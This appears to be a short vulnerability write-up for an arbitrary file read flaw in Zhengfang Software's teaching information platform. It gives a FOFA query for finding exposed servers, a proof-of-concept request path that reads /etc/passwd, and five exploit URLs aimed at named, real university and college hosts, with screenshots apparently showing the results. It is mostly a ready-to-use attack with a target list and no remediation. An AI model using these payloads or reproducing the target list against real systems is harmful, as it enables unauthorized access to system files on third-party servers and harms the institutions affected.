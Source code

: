 # There is an arbitrary file reading vulnerability in the comprehensive teaching information service platform of Zhengfang Software Co., Ltd.



fofa：title="教学综合信息服务平台" && body="正方软件股份有限公司" && body="版本V-8.0.0"

poc：/WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true



Exp1：

https://iteach.sjzlg.com/

![image-20240313175659778](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313175659778.png)

https://iteach.sjzlg.com/WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true

![image-20240313175552385](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313175552385.png)



Exp2：

https://xjwxt.sxpi.edu.cn/

![image-20240313175736176](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313175736176.png)

https://xjwxt.sxpi.edu.cn/WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true

![image-20240313175635121](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313175635121.png)

Exp3：

http://jw.lywhxy.com:8800/

![image-20240313175850542](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313175850542.png)

http://jw.lywhxy.com:8800/WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true

![image-20240313175901632](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313175901632.png)





Exp4：

https://jwgl.xynun.edu.cn/

![image-20240313180022424](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313180022424.png)

https://jwgl.xynun.edu.cn/WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true

![image-20240313180010534](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313180010534.png)





Exp5：

https://zfjw.sjzlg.com/

![image-20240313180119205](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313180119205.png)

https://zfjw.sjzlg.com/WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true

![image-20240313180133138](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240313180133138.png)









































